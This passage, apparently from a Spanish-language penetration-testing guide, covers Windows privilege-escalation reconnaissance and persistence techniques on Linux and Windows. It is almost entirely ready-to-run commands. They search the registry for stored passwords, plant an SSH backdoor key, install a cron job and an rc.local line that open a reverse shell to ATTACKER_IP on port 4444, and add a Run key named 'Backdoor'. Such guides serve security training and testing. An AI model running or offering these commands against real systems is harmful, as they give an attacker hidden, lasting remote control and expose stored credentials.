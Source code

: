 #### Servicios Vulnerables

```powershell
# Listar servicios y sus rutas
wmic service get name,displayname,pathname,startmode

# Buscar servicios con rutas sin comillas
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

#### Registry y Configuraciones

```powershell
# Buscar passwords en registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

# Revisar configuraciones de autologon
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

## Fase 3: Técnicas de Persistencia

### Linux Persistence

#### Backdoors en SSH

```bash
# Agregar clave SSH autorizada
mkdir -p ~/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2E..." >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```

#### Cron Jobs Maliciosos

```bash
# Agregar cron job para reverse shell
echo "*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'" | crontab -
```

#### Modificación de Scripts de Sistema

```bash
# Agregar backdoor a script de inicio
echo "/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' &" >> /etc/rc.local
```

### Windows Persistence

#### Registry Run Keys

```powershell
# Agregar entrada en registry para auto-inicio
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Backdoor" /t REG_SZ /d "C:\backdoor.exe"
```
